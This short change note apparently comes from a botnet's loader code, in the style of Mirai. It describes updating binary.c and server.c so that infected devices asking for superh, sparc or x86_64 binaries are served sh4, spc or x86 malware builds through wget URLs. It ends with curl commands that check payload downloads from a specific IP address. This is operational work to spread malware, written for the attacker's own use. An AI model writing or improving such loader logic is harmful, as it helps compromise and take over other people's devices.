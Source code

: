 # Architecture Mapping Fix

## Problem
Infected devices were requesting binaries for architectures that don't exist in `/var/www/html/bins/`:
- `static.superh` → 404 Not Found
- `static.sparc` → 404 Not Found  
- `static.x86_64` → 404 Not Found

## Solution
Updated the loader to map requested architectures to available binaries:

### Architecture Mappings:
- `superh` / `superh7` → `sh4`
- `sparc` → `spc` 
- `x86_64` → `x86`

### Changes Made:

1. **Updated `binary_get_by_arch()` in `binary.c`**:
   - Added architecture mapping logic
   - Maps requested architectures to available ones
   - Maintains backward compatibility

2. **Updated wget URL generation in `server.c`**:
   - Maps architecture before generating wget command
   - Uses mapped architecture in URL: `http://server/bins/static.{mapped_arch}`
   - Updated debug logging to show mapping

### Result:
- No more 404 errors for `superh`, `sparc`, `x86_64`
- Infected devices get correct binaries
- All architectures properly mapped to available binaries
- No symlinks or workarounds needed

### Verification:
```bash
# These now return 200 OK instead of 404:
curl -I http://185.247.117.214/bins/static.sh4    # (mapped from superh)
curl -I http://185.247.117.214/bins/static.spc    # (mapped from sparc)  
curl -I http://185.247.117.214/bins/static.x86    # (mapped from x86_64)
```

The loader now properly handles architecture mapping without any workarounds or symlinks.

